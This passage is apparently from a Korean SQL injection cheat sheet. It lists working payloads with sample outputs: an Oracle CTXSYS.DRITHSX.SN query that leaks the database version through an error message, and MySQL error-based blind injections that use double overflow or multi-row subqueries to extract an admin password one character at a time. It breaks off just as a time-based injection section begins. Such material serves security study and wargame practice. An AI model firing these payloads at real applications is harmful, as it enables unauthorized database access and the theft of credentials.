 <br><br>

+ ORACLE

```php
SELECT CTXSYS.DRITHSX.SN(user,(select banner from v$version where rownum=1)) FROM dual;

/*
ORA-20000: Oracle Text error:
DRG-11701: thesaurus Oracle Database 18c Express Edition Release 18.0.0.0.0 - Production does not exist
ORA-06512: at "CTXSYS.DRUE", line 183
ORA-06512: at "CTXSYS.DRITHSX", line 555
ORA-06512: at line 1
*/
```

<br>

읽어보기
: <a href="https://blog.ch4n3.kr/496" target="_blank">blog.ch4n3.kr/496</a>

<br><br>
<hr style="border: 2px solid;"><br>
<br><br>

## Error Based Blind SQL Injection
<hr style="border-top: 1px solid;"><br>

```
-> double형 최대 값 넘은 값 (0xffffffff*0xffffffffffff)
-> subquery 리턴 개수 1임을 이용한 에러 이용

select if(1=1, 9e307*2,0);  /* ERROR 1690 (22003): DOUBLE value is out of range in '(9e307 * 2)' */

select id from table where id='' or id='admin' and if(ascii(substr(pw,1,1))>1,1,0xfffffff*0xffffffffff)#'

select id from table where id='' or id='admin' and if(ascii(substr(pw,1,1))>1,1,(select 1 union select 2)) #'

select id from table where id='' or id='admin' and if(ascii(substr(pw,1,1))>1,1,(select 1 from table)) #'
  --> select 1 from table 하면 3개의 값이 리턴됨.
```

<br><br>
<hr style="border: 2px solid;"><br>
<br><br>

## Time Based SQL Injection
<hr style="border-top: 1px solid;"><br>

Time based SQL Injection은 시간 지연을 이용해 쿼리의 참/거짓 여부를 판단하는 공격 기법. 

